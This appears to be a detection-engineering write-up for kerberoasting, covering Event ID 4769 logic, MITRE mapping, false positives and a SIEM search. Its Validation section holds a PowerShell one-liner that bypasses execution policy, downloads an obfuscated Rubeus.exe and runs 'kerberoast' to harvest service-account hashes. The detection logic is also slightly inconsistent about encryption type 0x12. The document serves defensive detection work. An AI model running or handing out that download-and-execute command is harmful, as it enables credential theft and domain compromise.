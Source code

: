 # Detection Name

* Recommended rule name - kerberoasting_abuse.yaral
* Reference - **a9b2005b-99cb-48ed-b0a5-d56579fcd9ee**

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

The data source is [Active Directory](https://attack.mitre.org/datasources/DS0026/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17 (RC4_HMAC)
* Identify where the Encryption Type is 0x12 (AES)
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this ADS could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scripts that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Although many environments no longer have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated privileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain" 
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
(target.resource.resource_subtype = "0x12" OR target.resource.resource_subtype = "0x17")
```